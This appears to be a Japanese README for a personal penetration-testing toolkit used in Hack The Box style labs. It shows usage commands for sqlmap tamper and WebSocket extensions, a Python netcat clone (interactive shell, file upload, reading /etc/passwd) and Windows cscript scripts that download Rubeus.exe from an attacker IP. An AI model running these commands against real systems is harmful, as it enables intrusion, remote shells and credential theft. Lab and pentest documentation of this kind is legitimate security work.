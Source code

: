 # side_tool
個人的ハックツールに付与できる拡張機能コードリスト

## sqlmap_basic_auth.py
sqlmapコマンドのBasic Auth Base64 Request拡張機能コード
<br/>
コマンド例
```
sqlmap -r ./req --tamper=./sqlmap_basic_auth.py --ignore-code=401 --level 5 --risk 3
```
リクエスト例
```
#req
GET http://example.htb/ HTTP/1.1
Content-Length: 0

...
Authorization: Basic *
```
## sqlmap_websocket.py
websocketのプロトコルを介したsqlmapの実行。プロキシ`localhost:8081`を建て、そこからSQLi対象へwebsocket送ります。
<br/>
コマンド例
```
# websocketインストール
pip install websockets

# プロキシ起動
python3 sqlmap_websocket.py

# sqlmap実行
sqlmap -u "http://localhost:8081/?id=1" --batch --dbs
```

## netcat.py
Python環境が存在（ほぼある）するターゲットで簡易的に足場を構築するためのもの

```
# 対話型コマンドシェルの起動
netcat.py -t 10.11.14.13 -p 4444 -l -c
# ファイルのアップロード
netcat.py -t 10.11.14.13 -p 4444 -l -u=mytest.whatisup
# コマンドの実行
netcat.py -t 10.11.14.13 -p 4444 -l -e=\"cat /etc/passwd\"
# 通信先サーバーの135番ポートに文字列を送信
echo 'ABCDEFGHI' | ./netcat.py -t 10.11.14.13 -p 135
# サーバーに接続
netcat.py -t 10.11.14.13 -p 4444
```
## windows_wget_script
Windows標準で組み込まれているスクリプト言語を使ってWgetを実行する物

コマンド例：
```
#Javascript
cscript.exe /nologo wget.js hxxp://10.11.14.13/Rubeus.exe Rubeus.exe

#VBS
cscript.exe /nologo wget.vbs hxxp://10.11.14.13/Rubeus.exe Rubeus.exe
```
